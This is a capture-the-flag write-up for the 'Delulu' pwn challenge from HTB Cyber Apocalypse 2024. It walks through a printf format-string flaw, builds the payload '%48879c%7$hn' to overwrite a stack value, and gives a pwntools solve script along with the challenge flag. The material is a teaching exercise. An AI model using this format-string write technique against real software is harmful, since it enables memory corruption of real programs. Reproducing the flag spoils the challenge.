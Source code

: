 # Delulu
#### HTB Cyber Apocalypse 2024

***Category:*** pwn
***Description:*** "HALT! Recognition protocol initiated. Please present your face for scanning."
***Tags***: #format-string
## Initial Analysis
Opening this up in Ghidra, we are greeted with this in the decomp view.
``` c
local_48 = 0x1337babe;
local_40 = &local_48;
local_38 = 0;
local_30 = 0;
local_28 = 0;
local_20 = 0;
read(0,&local_38,0x1f);
printf("\n[!] Checking.. ");
printf((char *)&local_38);
if (local_48 == 0x1337beef) {
delulu();
}
else {
error("ALERT ALERT ALERT ALERT\n");
}
```

The important part is the check:
``` c
if (local_48 == 0x1337beef) {
delulu();
}
```

Looking into the delulu function, it prints the flag
``` c
local_14 = open("./flag.txt",0);
if (local_14 < 0) {
perror("\nError opening flag.txt, please contact an Administrator.\n");
				/* WARNING: Subroutine does not return */
exit(1);
}
printf("You managed to deceive the robot, here\'s your new identity: ");
while( true ) {
sVar1 = read(local_14,&local_15,1);
if (sVar1 < 1) break;
fputc((int)local_15,stdout);
}
```

From this initial analysis we can determine a few things:
- `local48` is set to `0x1337babe`
- setting `local_48` to `0x1337beef` prints the flag
- there is direct user input into the format specifier of printf `printf((char *)&local_38);` which enables a [format string] attack

## Exploitation
Because we have control over the format string in printf, we can utilize a format string attack. With this we can write data to a location, and fortunately for us, we also have a pointer to the location we are trying to write to.
``` c
local_48 = 0x1337babe;
local_40 = &local_48;
```

So `local_40` is holding a pointer to `local_48`. Why is this important? When writing bytes to an address using printf, you need the address of the location you are writing to. This is a pointer.

How do we write data with printf? We can use the n specifier. The n specifier will write the number of bytes that have been written.
``` c
int data_out;
printf("Here's just a random string.%n\n", &data_out);
printf("Bytes written: %d\n", data_out);
```
```
Here's just a random string.
Bytes written: 28
```

### What to Write
We can use the width specifier in format strings in combination with the character specifier to write specific number of bytes. Since this binary is x64 architecture, data is stored in little endian. So the value `0x1337babe` is represented in the stack as:
```
0048: be ba 37 13 00 00 00 00
```

With setting the value, we want to set it to `0x1337beef`
```
0048: ef be 37 13 00 00 00 00
```

Since we are writing an integer, when it writes data, it will store it in little integer, so the integer that we want to write is actually going to be `0xbeef` which when stored on the stack will look like `0xefbe`.

Converting hex -> dec will look like `0xbeef`  -> `48879`.

With that we can write our value using `%48879c%n`.

### Where to Write
So if you tried that payload it would not have worked because we are not writing to the right place. We have a pointer to the address we want to write `local_40` points to `local_48`. Positional mapping:
- 1 - rsi
- 2 - rdx
- 3 - rcx
- 4 - r8
- 5 - r9
- 6 - local_48
- 7 - local_40

So we want the positional to be 7.

Combining those two concepts we get `%48879c%7$hn`

```
python3 solve.py -r 94.237.62.195:36448
...
You managed to deceive the robot, here's your new identity: HTB{m45t3r_0f_d3c3pt10n}
```
## Solve Script
``` python
from pwn import *
from ctfkit.bp import *

context.binary = './delulu'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

tpwn.HOST = ""
tpwn.GDB_SCRIPT = ""

def main():
  proc = get_process()

  format_string = "%48879c%7$hn"
  proc.sendline(format_string)
  proc.interactive()

if __name__ == '__main__':
  parse_args()
  main()
```
##### Flag: `HTB{m45t3r_0f_d3c3pt10n}`